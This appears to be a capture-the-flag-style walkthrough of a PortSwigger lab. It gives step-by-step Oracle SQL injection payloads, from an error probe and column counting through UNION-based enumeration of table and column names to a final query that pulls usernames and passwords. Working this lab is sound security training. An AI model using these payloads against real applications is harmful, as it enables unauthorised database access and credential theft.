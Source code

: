 # SQL injection attack, listing the database contents on Oracle
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

Step - 1
---
```
'
```
Error > Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 3--
```
Error > 2 Column

Step - 4
---
```
' UNION SELECT 'a','a' FROM dual--
```
2 String Column

Step - 5
---
```
' UNION SELECT 'a',table_name FROM all_tables--
```
1. Table Name: USERS_JASUOU

Step - 6
---
```
' UNION SELECT 'a',column_name FROM all_tab_columns WHERE table_name='USERS_JASUOU'--
```
1. Column Name: USERNAME_GSFFNH and PASSWORD_DITWXL

Step - 7
---
```
' UNION SELECT 'a',USERNAME_GSFFNH || '~' || PASSWORD_DITWXL FROM USERS_JASUOU--
```
